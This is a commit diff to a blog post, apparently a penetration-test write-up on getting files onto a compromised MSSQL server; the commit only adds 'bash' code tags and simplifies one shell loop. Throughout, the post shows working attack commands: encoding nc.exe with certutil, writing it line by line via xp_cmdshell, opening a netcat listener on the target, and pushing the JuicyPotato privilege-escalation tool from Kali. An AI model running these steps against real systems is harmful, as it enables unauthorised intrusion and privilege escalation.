

Before and after one commit to ricardojoserf/ricardojoserf.github.io, a Jekyll site: the page built from _posts/2021-9-14-mssql-exfiltration.md, in a window 1280 px wide and 1400 px high, scrolled down 2714 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2021-9-14-mssql-exfiltration.md

````diff
--- a/_posts/2021-9-14-mssql-exfiltration.md
+++ b/_posts/2021-9-14-mssql-exfiltration.md
@@ -27,7 +27,7 @@ We have a foothold in the netwotk but the firewalls configutaion and network seg
 
 So, how could we get a reverse shell or upload the Juicy Potato binary? If we check blogs [like this one](https://book.hacktricks.xyz/exfiltration), they mention certutil to base64-encode and then decode the files:
 
-```
+```bash
 certutil -encode payload.dll payload.b64
 certutil -decode payload.b64 payload.dll
 ```
@@ -36,7 +36,7 @@ So the idea is to encode a Windows binary, paste the content with mssqlclient.py
 
 So first let's encode a Netcat binary:
 
-```
+```bash
 certutil -encode nc.exe nc.txt
 ```
 
@@ -46,8 +46,8 @@ Generating a file like this one:
 
 But with the mssqlclient.py script I had problems with the length of the encoded payload. However, after pasting the payload in a Linux machine, the payload can be splitted and generate commands to upload the file line by line:
 
-```
-while read p; do a=(echo $p); echo "xp_cmdshell echo $a >> c:\\\\windows\\\\tasks\\\\nc.txt"; echo; done < /tmp/nc.txt > commands.txt
+```bash
+while read p; do echo "xp_cmdshell echo $p >> c:\\\\windows\\\\tasks\\\\nc.txt"; echo; done < /tmp/nc.txt > commands.txt
 ```
 
 We get a file ("commands.txt") with one command per line of the encoded payload:
@@ -56,19 +56,19 @@ We get a file ("commands.txt") with one command per line of the encoded payload:
 
 After copying all the content of the file and pasting it in the command line with a mssqlclient.py session open, we will generate a text file in c:\windows\tasks, which can be decoded then with:
 
-```
+```bash
 xp_cmdshell certutil -decode c:\windows\tasks\nc.txt c:\windows\tasks\nc.exe
 ```
 
 Luckily, after uploading this file I realized that there was not any antivirus in the machine and the Windows firewall was disabled, so it was as easy as uploading the file using bind shells insted of reverse shells. So in the compromised server the command was:
 
-```
+```bash
 xp_cmdshell c:\windows\tasks\nc.exe -lvp 8888 > c:\windows\tasks\juicypotato.exe
 ```
 
 And from the Kali machine:
 
-```
+```bash
 nc -nv 10.100.10.10 8888 < juicypotato.exe
 ```
 
````
